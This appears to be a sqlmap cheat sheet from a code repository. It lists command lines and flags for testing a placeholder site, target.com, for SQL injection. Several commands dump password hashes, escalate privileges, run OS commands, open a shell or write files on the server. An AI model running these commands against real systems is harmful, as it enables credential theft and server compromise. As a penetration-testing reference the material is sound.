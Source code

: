 # SQLMap-Cheat-Sheet
Target the http://target.com URL using the “-u” flag:
sqlmap -u 'http://target.com'
Specify POST requests by specifying the “–data” flag:
sqlmap -u 'http://target.com' --data='param1=blah&param2=blah'
Target a vulnerable parameter in an authenticated session by specifying cookies using the “–cookie” flag:
sqlmap -u 'http://target.com' --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx'
Drop all Set-Cookie requests from the target web server using the “–drop-set-cookie” flag:
sqlmap -u 'http://target.com' -r req.txt --drop-set-cookie
Perform in-depth and risky attacks using the “–level” and “–risk” flags:
sqlmap -u 'http://target.com' --data='param1=blah' --level=5 --risk=3
Specify which POST or GET parameter to target using the “-p” flag:
sqlmap -u 'http://target.com' --data='param1=blah&param2=blah' -p param1
Choose a random User-Agent request header using the “–random-agent” flag:
sqlmap -u 'http://target.com' -r req.txt --random-agent
Target a certain database service using the “–dbms” flag:
sqlmap -u 'http://target.com' -r req.txt --dbms Oracle
Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords:
sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords
Attempt privilege escalation on the target database
sqlmap -r ./req.txt --level=1 --risk=3 --privesc
Run the “whoami” command on the target server.
sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami
Dump everything in the database, but wait one second in-between requests.
sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1
Here are some useful options for your pillaging pleasure:
-r req.txt Specify a request stored in a text file, great for saved requests from BurpSuite.
–force-ssl Force SQLmap to use SSL or TLS for its requests.
–level=1 only test against the specified parameter, ignore all others.
–risk=3 Run all exploit attempts, even the dangerous ones (could damage database).
–delay Set a delay in-between requests, great for throttled connections.
–proxy Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.
–privesc Attempt to elevate the privileges of the database service account.
–all Enumerate everything inside the target database.
–hostname Print the target database’s hostname.
–passwords Find and exfiltrate all users and their password hashes or digests.
–dbs Enumerate all databases accessible via the target webserver.
–comments Enumerate all found comments inside the database.
–sql-shell Return a SQL prompt for interaction.
–os-cmd Attempt to execute a system command.
–os-shell Attempt to return a command prompt or terminal for interaction.
–reg-read Read the specified Windows registry key value.
–file-write Specify a local file to be written to the target server.
–file-dest Specify the remote destination to write a file to.
–technique Specify a letter or letters of BEUSTQ to control the exploit attempts:

    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries
